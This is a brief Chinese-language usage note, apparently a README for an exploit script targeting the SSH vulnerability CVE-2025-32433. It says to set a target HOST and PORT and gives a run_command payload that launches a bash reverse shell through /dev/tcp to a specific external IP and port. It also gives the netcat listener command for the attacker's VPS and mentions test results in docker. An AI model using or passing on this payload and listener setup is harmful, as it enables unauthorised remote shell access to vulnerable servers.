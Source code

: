 CVE-2025-32433-Rebound-shell.py:

使用方法：python环境直接运行改代码，不需要参数，只需要修改代码头中定义的相关变量即可

 ```
  - HOST：目标ip
  - PORT：目标ip ssh服务端口
  - run_command：'os:cmd("bash -c \'bash -i >& /dev/tcp/38.47.101.230/6677 0>&1\'").'
  				修改vps ip port即可
 ```

 

vps：

```
nc -lvnp port
```



cve-2025-32433-github-run-command：实验 docker里可以弹主机，但无法弹vps
